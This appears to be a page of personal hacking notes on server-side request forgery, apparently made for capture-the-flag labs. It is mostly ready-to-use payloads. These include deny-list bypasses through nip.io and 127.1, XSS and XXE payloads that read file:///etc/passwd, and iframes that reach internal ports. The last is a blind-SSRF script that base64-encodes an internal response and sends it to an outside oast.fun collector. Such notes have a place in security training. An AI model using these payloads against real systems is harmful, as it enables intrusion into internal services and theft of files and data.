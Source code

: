 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost"; </script>
```

```
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```
<iframe/src=https://mywebsite.com/locationwhere.html>
```

## Chaining XML External Entity (XXE)

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

```
python3 -m http.server 8080
ngrok http http://localhost:8080
```

```
<iframe/src="https://fbcf-83-213-97-233.ngrok-free.app/prince-poc.xml">
```

## Blind SSRF

```html
<script>
    // Create a new XMLHttpRequest object
    exfil = new XMLHttpRequest();

    // Set the target server below (e.g., https://abcdefg.ctfio.com)
    exfil.open("GET", "https://burgundy.ctfio.com/blind/recipe");
    exfil.send();

    // Set your Colab instance URL below to capture the contents of /blind/recipe
    exfil.onload = function() { 
        document.write('<img src="puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun/?x=' + 
        btoa(this.responseText) + '">'); 
    }
</script>
```

